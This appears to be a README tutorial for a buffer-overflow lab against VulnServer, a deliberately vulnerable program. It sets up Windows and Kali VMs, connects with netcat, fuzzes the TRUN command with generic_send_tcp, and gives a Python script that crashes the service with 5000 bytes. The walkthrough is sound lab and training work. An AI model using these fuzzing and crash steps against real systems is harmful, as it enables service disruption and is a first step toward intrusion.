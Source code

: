 # VulnServer 

We Need Two Virtual Machines Windows 10 , Kali . Download VulnServer [Here](https://thegreycorner.com/vulnserver.html)

In the Windows VM open Cmd go to `vulnserver` directory < Run `vulnserver.exe`.

In the Kali , write this command < HELP
```sh
nc -nv 192.168.242.130 9999
```
Now we have to Find a Crash we do that by Fuzzing , we write a code in `test.spk`.

![alt text](testspk.png)

run the vulnserver < write a command in kali 

```sh
generic_send_tcp <windows vm ip> 9999 test.spk 0 0
```
We then Notice that it crashes after a bunch of inputs 

![alt text](spkcrash.png)

Now that we got a Crash , Its time to Analyse the Crash for that we use Immunity Debugger [Download](https://www.immunityinc.com/products/debugger/)

Open the Vulnserver.exe in Immunity Debugger.

To Recreate the Crash we write a Python Script : `exploit3.py`
We input 5000 A's so that it crashes the vulnserver

```python
#!/usr/bin/python
import os 
import sys 
import socket


host = "192.168.242.130"
port = 9999
buffer = "A" * 5000
s = socket.socket(socket.AF_INET , socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
print ("sending exploit3")
s.send("TRUN /.:/" + buffer)
print s.recv(1024)
s.close()
```


